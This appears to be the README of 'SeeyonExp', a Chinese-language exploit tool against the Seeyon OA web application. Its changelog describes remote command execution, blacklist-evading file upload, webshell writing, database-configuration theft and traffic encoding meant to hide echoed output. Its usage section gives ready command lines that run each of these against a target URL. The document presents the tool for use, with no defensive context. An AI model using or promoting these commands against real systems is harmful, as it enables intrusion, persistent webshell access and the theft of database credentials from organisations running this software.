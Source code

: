 # SeeyonExp

### 0x00 开发日志

2021-2-2 V0.8 新增影响版本v6.1

2021-1-10 V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

2020-11-11 V0.6 增加数据库配置文件读取功能

2020-11-10 V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

2020-11-2 V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

2020-10-30 V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

2020-10-22 V0.2 命令可以在windows与Linux下执行，并支持https

2020-10-20 V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon 

执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext

使用参考：https://mp.weixin.qq.com/s/NKksirrM5Zg5BGCu4fY8LQ

